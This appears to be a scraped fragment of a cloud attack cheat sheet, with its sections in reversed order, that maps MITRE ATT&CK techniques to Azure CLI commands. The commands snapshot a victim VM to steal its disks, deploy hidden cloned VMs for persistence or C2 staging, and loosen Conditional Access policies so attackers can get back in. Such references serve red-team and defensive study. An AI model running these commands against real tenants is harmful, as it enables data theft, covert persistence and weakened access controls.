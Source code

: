 **➡️ Delete Cloud Instance**

***

✅ **Result**: Hidden cloned VMs deployed.

```bash
bashCopyEditaz vm create --resource-group victim-rg --name cloned-vm --attach-os-disk stealth-snapshot
```

**Azure Example**:

**Description**:\
Clone or deploy new VMs from existing snapshots for persistence or staging C2.

\| MITRE ID | **T1578.001** |

**➡️ Create Cloud Instance**

***

✅ **Result**: Steal OS disks stealthily.

```bash
bashCopyEditaz snapshot create --resource-group victim-rg --source victim-vm --name stealth-snapshot
```

**Azure Example**:

**Description**:\
Create snapshots of Azure VMs to steal data or credentials without alerting on live systems.

\| MITRE ID | **T1578.002** |

**➡️ Create Snapshot**

***

#### 🖥️ Modify Cloud Compute Infrastructure

***

✅ **Result**: Easier reentry paths for attackers.

```bash
bashCopyEditaz ad conditional-access policy update --id <policy-id> --conditions '{"locations":["trusted-location-id"]}'
```

**Azure Example**:

**Description**:\
Modify Conditional Access (CA) policies to allow risky access locations, IPs, devices, or users.

\| MITRE ID | **T1556.008** |

**➡️ Conditional Access Policies**

***
